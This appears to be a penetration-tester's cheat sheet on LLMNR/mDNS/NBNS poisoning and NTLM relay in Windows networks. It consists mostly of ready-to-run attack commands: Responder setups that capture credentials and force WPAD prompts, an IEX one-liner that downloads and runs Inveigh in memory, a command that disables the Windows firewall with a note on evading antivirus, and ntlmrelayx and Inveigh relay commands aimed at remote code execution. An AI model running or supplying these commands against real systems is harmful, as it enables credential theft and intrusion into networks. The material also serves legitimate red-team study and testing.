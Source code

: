 
# LLMNR/mDNS/NBNS poisonning and SMB relay

## Overview

MITRE ATT&CK mapping: [T1557.001](https://attack.mitre.org/beta/techniques/T1557/001/)

Reference:

```
LLMNR protocol: https://en.wikipedia.org/wiki/Link-Local_Multicast_Name_Resolution
mDNS protocol: https://en.wikipedia.org/wiki/Multicast_DNS
NBNS protocol: https://en.wikipedia.org/wiki/NetBIOS_over_TCP/IP#Name_service
```

## Procedures

### Classic Responder LLMNR/mDNS/NBNS poisonning

```
# most lightweight version: poisonning + capturing requests only to SMB
Responder.py -I eth0 -f

# as aobove + acting as WPAD web proxy
Responder.py -I eth0 -wrf

# also forces users to provide their creds on WPAD
Responder.py -I eth0 -wfFbv
```

### PowerShell DNS/LLMNR/mDNS/NBNS poisonning

```
# details:
# https://github.com/Kevin-Robertson/Inveigh/
# https://github.com/Kevin-Robertson/Inveigh/wiki/Basics
Invoke-WebRequest -Uri https://github.com/Kevin-Robertson/Inveigh/archive/Inveigh-master.zip -OutFile Inveigh-master.zip

OR (how's this differnet?):

# downloading Inveigh in PowerShell and loading it into memory with:
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1")

# unzip (when .NET Framework 4.5 is available):
[System.Reflection.Assembly]::LoadWithPartialName('System.IO.Compression.FileSystem')
[System.IO.Compression.ZipFile]::ExtractToDirectory(".\Inveigh-master.zip", ".\Inveigh-master")

# source your PS scripts
cd .\Inveigh-master; cd .\Inveigh-master; . .\Inveigh.ps1

# turn off win firewall (also antivirus should be turned off or evaded):
netsh advfirewall set  allprofiles state off

# run in poisoning mode (Needs PS console with admin privs):
Invoke-Inveigh -IP <current-box-ip> -ConsoleOutput Y -NBNS Y -LLMNR Y -mDNS Y -HTTPS Y -Proxy Y -FileOutput Y

# run in limited poisoning mode (no admin privs):
Invoke-Inveigh -IP <current-box-ip> -ConsoleOutput Y -NBNS Y -FileOutput Y

# to stop:
Stop-Inveigh
```

### NetNTLM Relay: classic

Prereq for success: 

1. SMB signing must not be enforced (i.e. one of the machines in the conversation must have `message_signing: disabled (dangerous, but default)` as a result of `nmap --script smb-security-mode -p445 192.168.12.0`)
2. For optimal impact (i.e. RCE) owner of the credetnials that are being relayed must have Local Admin privileges on target machine

### With Responder + impacket's ntlmrealyx/smbrealyx

In `Responder.conf`:

```
; Servers to start
SQL = Off
SMB = Off
RDP = Off
Kerberos = Off
FTP = Off
POP = Off
SMTP = Off
IMAP = Off
HTTP = Off
HTTPS = Off
DNS = Off
LDAP = Off
```

Start responder: 

    responder -I eth0 -f -v`

Start ntlmrelayx:

    impacket-ntlmrelayx -t smb://<ip-to-relay-to> --enum-local-admins -smb2support

Reference:

    https://threat.tevora.com/quick-tip-skip-cracking-responder-hashes-and-replay-them/
    https://speakerdeck.com/ropnop/fun-with-ldap-kerberos-and-msrpc-in-ad-environments

### With Inveigh 

Capabilities:

NTLMv1/NTLMv2 HTTP/HTTPS/Proxy -> SMB2.1 relay

Procedure:

```
# we don't launch listener on HTTP as Invoke-InveighRelay will listen on it
Invoke-Inveigh -IP <current-box-ip> -ConsoleOutput Y -NBNS Y -LLMNR Y -mDNS Y -HTTP N

# Prepare command to execute (e.g. launcher for C2 Empire):
TODO

# launch Relay (as cmd provide launcher command form Empire):
Invoke-InveighRelay -ConsoleOutput Y -StatusOutput N -Target <ip-to-relay-to> -Command <cmd-to-execute>
```

### NetNTLM Relay: IPv6 DNS server impersonation (mitm6)

    https://hausec.com/2019/03/05/penetration-testing-active-directory-part-i/

### Notes

Other tools:

```
https://www.fox-it.com/en/insights/blogs/blog/inside-windows-network/
https://github.com/SecureAuthCorp/impacket
```

## OPSEC considerations

## Counter-countermeasures
